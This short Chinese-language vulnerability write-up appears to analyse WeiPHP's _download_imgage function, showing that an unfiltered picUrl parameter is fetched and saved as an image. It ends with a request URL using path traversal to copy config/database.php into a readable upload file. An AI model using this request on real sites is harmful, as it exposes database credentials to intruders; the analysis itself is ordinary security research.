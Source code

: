 分析传入变量 **picUrl** 的 **wp_file_get_contents**方法

```php
$content = wp_file_get_contents($picUrl);
```

函数文件位置 **application\common.php**

![](image/weiphp-4.png)

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析

```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```

这里创建了有关当前时间的图片文件，并写入文件夹**/public/uploads/picture/** 下

我们先尝试控制变量 **$picUrl** 来写入数据库配置文件到图片中

```
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```
